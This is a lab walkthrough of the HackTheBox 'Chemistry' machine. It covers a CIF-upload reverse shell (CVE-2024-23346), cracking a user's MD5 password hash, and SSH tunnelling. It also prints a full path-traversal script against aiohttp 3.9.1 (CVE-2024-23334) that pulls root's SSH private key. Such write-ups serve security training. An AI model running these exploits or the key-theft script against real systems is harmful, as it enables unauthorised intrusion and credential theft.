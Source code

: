 # Chemistry CTF - HackTheBox Room
# **!! SPOILERS !!**
#### This repository documents my walkthrough for the **Chemistry** CTF challenge on [HackTheBox](https://app.hackthebox.com/machines/Chemistry). 
---

we know about 2 open ports 22 ssh and 5000 http

![scan1](imgs/scan1.png "scan1")

we found few hidden directories with feroxbuster

![ferox1](imgs/ferox1.png "ferox1")

at the register page i created simple user test:test

![dash1](imgs/dash1.png "dash1")

we have options to upload CIF files and path to example cif file `/static/example.cif`

after googling i found how to smuggle python reverse shell inside .cif file
`https://github.com/Ohh-Raven/CIF-Payloads`,this is `CVE-2024-23346` ,I created mal.cif with rev shell 

![cif](imgs/cif.png "cif")

after uploading and clicking view we got hit with rev shell as `app`

![up](imgs/up.png "up")

![app](imgs/app.png "app")

after taking a look we see `/home/app/instance/database.db` sqlite3 database, I copied this databse to my local machine via python server and used `DB Browser for SQLite` to analyize it content

![db](imgs/db.png "db")

i checked the /home directory and found another user `rosa`, rosa record is also in the database and we got her password

its md5 hash but we can easly crack it with crackstation.net

![crack](imgs/crack.png "crack")

and it worked we are logged as rosa and we have user flag

![user](imgs/user.png "user")

i transfered pspy64 and linpeas to victim

there is a question `What TCP port is listening only on localhost and hosting webserver`: 8080

![8080](imgs/8080.png "8080")

we can use ssh to create tunnel

```
ssh -L 8080:127.0.0.1:8080 rosa@10.10.11.38
```

now we can acces another dashboard by going to:

```
http://127.0.0.1:8080
```

![dash2](imgs/dash2.png "dash2")

next we can use to find what service is running

```
nmap -p 8080 -sC -sV 127.0.0.1
```

![scan2](imgs/scan2.png "scan2")

we know about aiohttp version 3.9.1

after googling `aiohttp 3.9.1 exploit` we found `CVE-2024-23334 aiohttp LFI` from this github site `https://github.com/z3rObyte/CVE-2024-23334-PoC`

using feroxbuster to find `http://127.0.0.1:8080/assets/`

![ferox2](imgs/ferox2.png "ferox2")

we need to update the `exploit.sh` so it looks like this:

```
#!/bin/bash

url="http://localhost:8080"
string="../"
payload="/assets/"
file="root/.ssh/id_rsa" # without the first /

for ((i=0; i<15; i++)); do
    payload+="$string"
    echo "[+] Testing with $payload$file"
    status_code=$(curl --path-as-is -s -o /dev/null -w "%{http_code}" "$url$payload$file")
    echo -e "\tStatus code --> $status_code"
    
    if [[ $status_code -eq 200 ]]; then
        curl -s --path-as-is "$url$payload$file"
        break
    fi
done

```

now by executing this script we got root ssh key

![key](imgs/key.png "key")

now we got root access and root flag 

![root](imgs/root.png "root")

# MACHINE PWNED
